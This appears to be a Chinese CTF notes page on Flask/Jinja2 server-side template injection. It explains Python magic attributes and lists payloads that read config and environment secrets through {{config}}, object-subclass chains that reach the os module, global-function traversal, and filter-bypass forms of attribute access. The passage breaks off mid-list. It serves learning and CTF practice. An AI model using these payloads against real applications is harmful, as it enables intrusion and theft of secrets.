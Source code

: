 - # flask/jinja
- flask SSTI的基本思路就是利用python中的魔术方法找到自己要用的函数
  ```
      __dict__ 保存类实例或对象实例的属性变量键值对字典
      __class__  返回类型所属的对象
      __mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
      __bases__   返回该对象所继承的基类
      // __base__和__mro__都是用来寻找基类的
      
      __subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
      __init__  类的初始化方法
      __globals__  对包含函数全局变量的字典的引用
  ```
### 一些姿势

[浅析SSTI(python沙盒绕过)](https://bbs.ichunqiu.com/thread-47685-1-1.html?from=aqzx8)
#### 1、config

`{{config}}`可以获取当前设置，如果题目类似`app.config ['FLAG'] = os.environ.pop（'FLAG'）`，那可以直接访问`{{config['FLAG']}}`或者`{{config.FLAG}}`得到flag
- #### 2、self
  
  ```
  {{self}} ⇒ <TemplateReference None>
    {{self.__dict__._TemplateReference__context.config}} ⇒ 同样可以找到config
  ```
#### 3、`""`、`[]`、`()`等数据结构

主要目的是配合`__class__.__mro__[2]`这样找到`object`类  
`{{[].__class__.__base__.__subclasses__()[68].__init__.__globals__['os'].__dict__.environ['FLAG']}}`
- #### 4、url\_for, g, request, namespace, lipsum, range, session, dict, get\_flashed\_messages, cycler, joiner, config等
  
  如果config，self不能使用，要获取配置信息，就必须从它的上部全局变量（访问配置current\_app等）。
  
  例如：
  ```
    {{url_for.__globals__['current_app'].config.FLAG}}
    {{get_flashed_messages.__globals__['current_app'].config.FLAG}}
    {{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
  ```
### 常用绕过

[Jinja2模板注入过滤器绕过](https://0day.work/jinja2-template-injection-filter-bypasses/)  
[SSTI Flask 技巧进阶](https://www.jianshu.com/p/a736e39c3510)

以下表示法可用于访问对象的属性：

* `request.__class__`
* `request["__class__"]`
* `request|attr("__class__")`

可以使用以下方法访问数组元素：
